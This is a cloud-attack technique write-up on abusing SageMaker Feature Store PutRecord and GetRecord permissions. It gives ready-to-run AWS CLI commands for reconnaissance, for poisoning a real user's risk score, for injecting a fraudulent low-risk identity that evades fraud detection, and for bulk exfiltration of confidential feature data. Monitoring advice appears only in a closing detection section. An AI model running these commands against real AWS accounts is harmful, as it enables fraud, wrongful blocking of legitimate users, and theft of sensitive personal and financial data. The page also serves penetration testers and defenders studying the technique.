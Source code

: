 # SageMaker Feature Store online store poisoning

Abuse `sagemaker:PutRecord` on a Feature Group with OnlineStore enabled to overwrite live feature values consumed by online inference. Combined with `sagemaker:GetRecord`, an attacker can read sensitive features and exfiltrate confidential ML data. This does not require access to models or endpoints, making it a direct data-layer attack.

## Requirements
- Permissions: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Target: Feature Group with OnlineStore enabled (typically backing real-time inference)
- Complexity: **LOW** - Simple AWS CLI commands, no model manipulation required

## Steps

### Reconnaissance

1) List Feature Groups with OnlineStore enabled
```bash
REGION=${REGION:-us-east-1}
aws sagemaker list-feature-groups \
  --region $REGION \
  --query "FeatureGroupSummaries[?OnlineStoreConfig!=null].[FeatureGroupName,CreationTime]" \
  --output table
```

2) Describe a target Feature Group to understand its schema
```bash
FG=<feature-group-name>
aws sagemaker describe-feature-group \
  --region $REGION \
  --feature-group-name "$FG"
```

Note the `RecordIdentifierFeatureName`, `EventTimeFeatureName`, and all feature definitions. These are required for crafting valid records.

### Attack Scenario 1: Data Poisoning (Overwrite Existing Records)

1) Read the current legitimate record
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-001
```

2) Poison the record with malicious values using inline `--record` parameter
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Example: Change risk_score from 0.15 to 0.99 to block a legitimate user
aws sagemaker-featurestore-runtime put-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record "[
    {\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-001\"},
    {\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
    {\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.99\"},
    {\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"125.50\"},
    {\"FeatureName\": \"account_status\", \"ValueAsString\": \"POISONED\"}
  ]" \
  --target-stores OnlineStore
```

3) Verify the poisoned data
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-001
```

**Impact**: ML models consuming this feature will now see `risk_score=0.99` for a legitimate user, potentially blocking their transactions or services.

### Attack Scenario 2: Malicious Data Injection (Create Fraudulent Records)

Inject completely new records with manipulated features to evade security controls:

```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Create fake user with artificially low risk to perform fraudulent transactions
aws sagemaker-featurestore-runtime put-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record "[
    {\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-999\"},
    {\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
    {\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.01\"},
    {\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"999999.99\"},
    {\"FeatureName\": \"account_status\", \"ValueAsString\": \"approved\"}
  ]" \
  --target-stores OnlineStore
```

Verify the injection:
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-999
```

**Impact**: Attacker creates a fake identity with low risk score (0.01) that can perform high-value fraudulent transactions without triggering fraud detection.

### Attack Scenario 3: Sensitive Data Exfiltration

Read multiple records to extract confidential features and profile model behavior:

```bash
# Exfiltrate data for known users
for USER_ID in user-001 user-002 user-003 user-999; do
  echo "Exfiltrating data for ${USER_ID}:"
  aws sagemaker-featurestore-runtime get-record \
    --region $REGION \
    --feature-group-name "$FG" \
    --record-identifier-value-as-string ${USER_ID}
done
```

**Impact**: Confidential features (risk scores, transaction patterns, personal data) exposed to attacker.

### Testing/Demo Feature Group Creation (Optional)

If you need to create a test Feature Group:

```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
  ACC=$(aws sts get-caller-identity --query Account --output text)
  FG=test-fg-$ACC-$(date +%s)
  ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)
  
  aws sagemaker create-feature-group \
    --region $REGION \
    --feature-group-name "$FG" \
    --record-identifier-feature-name entity_id \
    --event-time-feature-name event_time \
    --feature-definitions "[
      {\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},
      {\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},
      {\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"},
      {\"FeatureName\":\"transaction_amount\",\"FeatureType\":\"Fractional\"},
      {\"FeatureName\":\"account_status\",\"FeatureType\":\"String\"}
    ]" \
    --online-store-config "{\"EnableOnlineStore\":true}" \
    --role-arn "$ROLE_ARN"
  
  echo "Waiting for feature group to be in Created state..."
  for i in $(seq 1 40); do
    ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
    echo "$ST"; [ "$ST" = "Created" ] && break; sleep 15
  done
fi

echo "Feature Group ready: $FG"
```

## Detection

Monitor CloudTrail for suspicious patterns:
- `PutRecord` events from unusual IAM principals or IP addresses
- High frequency `PutRecord` or `GetRecord` calls
- `PutRecord` with anomalous feature values (e.g., risk_score outside normal range)
- Bulk `GetRecord` operations indicating mass exfiltration
- Access outside normal business hours or from unexpected locations

Implement anomaly detection:
- Feature value validation (e.g., risk_score must be 0.0-1.0)
- Write pattern analysis (frequency, timing, source identity)
- Data drift detection (sudden changes in feature distributions)

## References
- [AWS SageMaker Feature Store Documentation](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store.html)
- [Feature Store Security Best Practices](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store-security.html)
